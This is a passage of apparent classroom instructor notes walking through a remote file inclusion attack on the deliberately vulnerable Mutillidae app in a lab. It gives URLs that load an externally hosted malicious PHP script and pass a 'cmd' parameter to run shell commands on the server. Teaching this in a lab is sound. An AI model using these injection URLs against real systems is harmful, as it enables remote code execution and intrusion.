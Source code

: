3. Modify the URL to run a remote malicious PHP script.

   - Explain that because we now know that we can modify the resource that the page accesses, we will explore what will happen if the new resource is a remote malicious script rather than a webpage.
  
   - Open the following webpage: <https://tinyurl.com/y498epmz>.
 
     - This is a webpage that was designed for this class and contains raw PHP code.

     - Note that this PHP script might look familiar. This is the same script that we used in the previous LFI lesson, except that it is now hosted on a public webpage:
   
      ![A PHP script is displayed.](Images/RFI5.png) 
 
   - Let's now check whether we can use this webpage as the new remote resource.

    - Return to the browser and change the URL to the following: <http://192.168.13.27/mutillidae/index.php?page=https://tinyurl.com/y498epmz>.
  
      ![A red arrow points to the remote malicious script at the end of the URL.](Images/RFI6.png)
  
   - Press Enter and explain that, similar to the LFI demonstration, nothing happens, as expected. We need to add a parameter to the URL to run command-line scripts. This works a little differently than the LFI script.
  
   - To run a command-line script, we have to add a second parameter with an ampersand `&`.

     - For example, if we want to run the `whoami` command, we add the second parameter as follows: <http://192.168.13.27/mutillidae/index.php?page=https://tinyurl.com/y498epmz&cmd=whoami>.
  
        ![The new URL features the first and second parameters.](Images/RFI7.png)
